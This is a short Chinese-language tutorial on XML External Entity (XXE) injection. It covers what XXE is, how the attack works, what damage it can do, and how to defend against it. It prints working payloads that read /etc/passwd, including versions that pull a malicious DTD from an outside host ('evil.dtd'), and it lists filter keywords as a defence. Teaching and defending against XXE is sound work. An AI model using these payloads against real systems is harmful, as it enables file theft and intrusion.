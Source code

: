 ### XXE是什么？攻击方法？危害？防御方法？
	1) XXE是什么？
		先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
```
		xxe也就是xml外部实体注入。
	2) XXE攻击方法
		a. 直接通过DTD外部实体声明
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
```
		b. 通过DTD文档引入外部DTD文档，再引入外部实体声明
			XML内容：
			```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
			```
			DTD文件内容：
			```
			<!ENTITY b SYSTEM "file:///etc/passwd">
			```
		c. 通过DTD外部实体声明引入外部实体声明
			XML内容：
			```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
			```
			DTD文件内容：
			```
			<!ENTITY b SYSTEM "file:///etc/passwd">
			```
	3) XXE危害
		a. 任意文件读取
		b. 执行系统命令
		c. 探测内网端口
		d. 攻击内网
	4) XXE防御方法
		a. 禁用外部实体声明
		b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
